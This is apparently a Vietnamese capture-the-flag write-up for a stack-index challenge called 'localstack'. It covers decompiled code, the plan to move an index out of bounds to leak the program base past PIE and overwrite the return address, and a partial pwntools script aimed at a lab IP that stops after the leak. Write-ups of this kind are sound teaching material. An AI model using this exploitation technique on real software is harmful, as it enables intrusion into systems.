 ### EXPLOIT

- ở bài này , ta cần kết hợp các option lại với nhau , ta thấy ta được ghi 1 giá trị bất kì vào v7[++idx] , và ta có luôn hàm ```print_flag``` nên không cần leak libc

```c
unsigned __int64 print_flag()
{
  FILE *stream; // [rsp+8h] [rbp-58h]
  char s[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen("flag", "r");
  if ( !stream )
  {
    perror("fopen");
    exit(1);
  }
  fgets(s, 64, stream);
  printf("%s", s);
  fclose(stream);
  return v3 - __readfsqword(0x28u);
}
```

- vậy đơn giản việc ta sẽ làm là giảm idx đi 1 với option ```pop``` , tiếp theo lúc này ta có thể dùng ```option``` push để thay đổi giá trị của ```idx``` ,  tiếp theo ta có thể dùng lại option ```push``` với ```idx``` là giá trị mà ta muốn và ở bài này sẽ là ret_address , tuy nhiên bài này PIE bật nên trước hết ta sẽ leak ```exe_address``` bằng option ```show```


- ta có thể thấy được ```idx``` ở địa chỉ ```0x7fffffffd708```  , tuy nhiên thì địa ```main``` khá là xa  

![image](https://hackmd.io/_uploads/r1lZaw6DPJe.png)

- vậy ta sẽ trừ rsp đi 0x20 để tìm địa chỉ exe xem có không và ta thấy ```0x7fffffffd6f8``` trỏ đến ```0x00005555555553f3``` và rsp lúc này là ```0x7fffffffd700``` , idx lúc này là -1 và v7[-1] sẽ là ```0x7fffffffd708``` vậy ta cần ```pop``` thêm 2 lần để nó trỏ đến địa chỉ exe và dùng hàm show để bypass PIE , tiếp theo việc cần làm sẽ ra tính toán để thay đổi giá trị của idx làm sao cho v7[idx] sẽ là ret_address , lúc làm bài này thì mình chưa nghĩ đến nên mình đã tính toán để leak ```canary``` luôn 

![image](https://hackmd.io/_uploads/rJUNupvPkl.png)

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./localstack_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
p  =remote('172.31.1.2', 11100)

p.sendlineafter(b'>> ',b'pop')
p.sendlineafter(b'>> ',b'pop')
input()
p.sendlineafter(b'>> ',b'show')

p.recvuntil(b'Stack top: ')
exe.address = int(p.recvline()[:-1]) - 0x14ef
```